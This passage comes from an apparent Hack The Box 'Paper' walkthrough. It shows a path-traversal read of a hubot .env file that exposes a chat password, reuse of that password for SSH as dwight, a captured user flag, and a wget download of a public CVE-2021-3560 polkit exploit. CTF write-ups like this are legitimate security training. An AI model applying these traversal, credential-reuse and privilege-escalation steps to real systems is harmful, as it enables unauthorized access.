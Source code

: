 ```text
file sale/../../hubot/.env

<!=====Contents of file sale/../../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file sale/../../hubot/.env=====>
```

## SSH Access

We have some credentials, and find that they are reused by dwight for his SSH access:

```sh
┌──(root💀kali)-[~/htb/paper]
└─# ssh dwight@office.paper                  
dwight@office.paper's password: 
Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ 
```

## User Flag

Let's grab the user flag before we have a look around:

```text
[dwight@paper ~]$ cat user.txt 
dfb5f17e111d79a99eeaf8cca1f17188
```

## CVE-2021-3560

After a fair bit of looking around I found the path to root was interesting on this box. Maybe I missed a clue or didn't follow the intended path, but I found CVE-2021-3560 which is another polkit exploit worked.

Vulnerable versions of polkit are listed in [this script](https://access.redhat.com/security/vulnerabilities/RHSB-2022-001). We can check the version on the box:

```text
[dwight@paper ~]$ pkaction --version 
pkaction version 0.115
```

From that RedHat list we know this is vulnerable. I searched on GitHub and found [this](https://github.com/Almorabea/Polkit-exploit) exploit. Switch to Kali and grab it:

```sh
┌──(root💀kali)-[~/htb/paper]
└─# wget https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py
--2022-02-07 17:12:37--  https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.13...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2434 (2.4K) [text/plain]
Saving to: ‘CVE-2021-3560.py’
CVE-2021-3560.py  100%[=====================================================>]   2.38K  --.-KB/s    in 0s
```
